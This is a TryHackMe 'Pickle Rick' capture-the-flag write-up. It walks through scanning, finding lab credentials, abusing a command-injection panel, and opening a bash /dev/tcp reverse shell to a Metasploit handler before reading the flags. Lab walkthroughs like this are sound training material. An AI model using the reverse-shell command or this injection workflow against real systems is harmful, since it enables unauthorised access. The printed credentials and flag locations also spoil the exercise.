

# Pickle Rick

Platform: TryHackMe
Difficulty: easy
OS: Linux
Category: Boot2Root
Tags: Command Injection, Web Shell, CTF
Date: 2026-05-20

### Scanning

Doing an `sCV` scan on this machine will only output minimal result. So use a script like http script to provide a comprehensive output

```bash
Nmap scan report for 10.10.229.41
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 76:e8:f9:f5:97:e1:99:eb:09:70:27:2b:b6:9c:6a:78 (RSA)
|   256 3e:19:ff:60:e4:06:cd:be:01:c4:12:83:dc:54:48:a3 (ECDSA)
|_  256 94:38:59:a7:86:3d:b8:f6:71:8b:50:4f:b1:20:8d:f3 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Visit the website and you’ll be given with a minimal design and some text by Rick.

View the source code and you will find a username:

```bash
Username: R1ckRul3s
```

Fuzz for hidden directories. The most common to visit is `robots.txt` you will find a text there and it looks like the password, so you will have

```bash
Username: R1ckRul3s:Wubbalubbadubdub
```

Now in the nmap scan, it will output that there is a login page at `login.php` visit that endpoint and login with the following credentials above.

### Command Injection

After a successful login you will be presented with a command injection page. You can type any Unix command here.

If you look closely, you can run sudo anywhere with no password by doing `sudo -l`



So no need for privilege escalation. It seems there’s the first ingredient in the current directory. But running a cat, vim, or nano command will restrict us.


And uploading a reverse shell won’t work either. So I decided to use a Bounce Shell

### Bounce Shell

To establish a bounce shell, you need to use its bash to establish a TCP connection to your machine. 

For better shell, launch a `metasploit` and use `multi/handler` set up your *LHOST* to your VPN IP and *LPORT* to your preferred port. 

The command to execute a bounce shell is as follows:

```bash
bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'
```

This will create a shell at your Metasploit. Now you can run all the commands without restrictions.

**FIRST FLAG** do a `cat` on the *Sup3rS3cretPickl3Ingred.txt*

**SECOND FLAG** go to `/home/rick` and `cat` the file `second ingredients` 

**THIRD FLAG** do a `sudo` followed by a `cat` on the file `3rd.txt`